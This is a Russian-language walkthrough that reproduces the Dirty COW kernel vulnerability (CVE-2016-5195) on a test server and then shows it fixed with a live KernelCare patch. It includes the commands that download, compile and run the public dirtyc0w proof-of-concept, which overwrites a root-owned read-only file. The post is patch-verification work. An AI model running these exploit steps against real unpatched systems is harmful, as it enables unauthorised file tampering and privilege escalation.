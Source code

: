 В linux kernel появилась новая уязвимость CVE-2016-5195 (<a href="https://habr.com/company/pentestit/blog/313276/">подробное описание</a>)<br/>
Попробуем воспроизвести. Далее с помощью KernelCare (без перезагрузки сервера) => пропатчить ядро.<br/>


Создаем файл, записываем текст. Владелец `root`, права `0404`
```
# echo this is not a test > foo
# chmod 0404 foo
# ls -lah foo
-r-----r-- 1 root root 19 Oct 26 02:23 foo
```

Создаем пользователя, заходим под ним.
```
# adduser --disabled-login test
# su test
```

Пытаемся перезаписать файл.
```
# echo m00000000000000000 > foo
bash: foo: Permission denied
```

Скачиваем Proof-of-Concept эксплоит.
```
wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirtyc0w.c
```

Компилируем и применяем.
```
# gcc -pthread dirtyc0w.c -o dirtyc0w
# ./dirtyc0w foo m00000000000000000
mmap 7fb2d8d05000

madvise 0

procselfmem 1800000000
```

Файл перезаписан.
```
# cat foo
m00000000000000000

# ls -lah foo
-r-----r-- 1 root root 19 Oct 26 02:23 foo
```

<hr/>

Тестируем KernelCare. На <a href="https://www.cloudlinux.com/all-products/product-overview/kernelcare">официальном сайте</a>- получаем trial лицензию на 30 дней.

```
## centOS
# rpm -i https://downloads.kernelcare.com/kernelcare-latest.x86_64.rpm
## Debian
# wget http://patches.kernelcare.com/kernelcare-latest.deb
# dpkg -i kernelcare-latest.deb
# kcarectl  --register x
```

После установки - автоматически устанавливается апдейт.
```
# kcarectl --info
kpatch-state: patch is applied
kpatch-for: Linux version 3.16.0-4-amd64 (debian-kernel@lists.debian.org) (gcc version 4.8.4 (Debian 4.8.4-1) ) #1 SMP Debian 3.16.7-ckt25-2+deb8u3 (2016-07-02)
kpatch-build-time: Fri Oct 21 02:05:59 2016
kpatch-description: 3;3.16.36-1+deb8u2

# kcarectl --update
Kernel is safe

# dmesg|grep 'kcare'
[2467632.682121] kcare: registered device with node 10:59
[2467637.409636] kcare: allocated 94448 bytes for patch at ffffc90007624000
[2467637.409650] kcare: verifying patch...
[2467637.409651] kcare: verified successfully
[2467637.409651] kcare: allocating memory in module space...
[2467637.409663] kcare: allocated 94448 bytes at ffffffffa0590000
[2467637.409671] kcare: 1037 relocations to fixup...
[2467637.409675] kcare: fixed 1037 relocations
[2467637.409675] kcare: jumping to ffffffffa0598b80
```

Пробуем повторить. Запускаем Proof-of-Concept эксплоит.
```
# echo this is not a test > foo
# su test
# cat foo 
this is not a test

# echo m00000000000000000 > foo 
bash: foo: Permission denied

# ./dirtyc0w foo m00000000000000000
mmap 7f8ccbb21000

madvise 0

procselfmem 1800000000

# cat foo
this is not a test
```

Отлично, ядро пропатчено без перезагрузки сервера, уязвимость не работает.
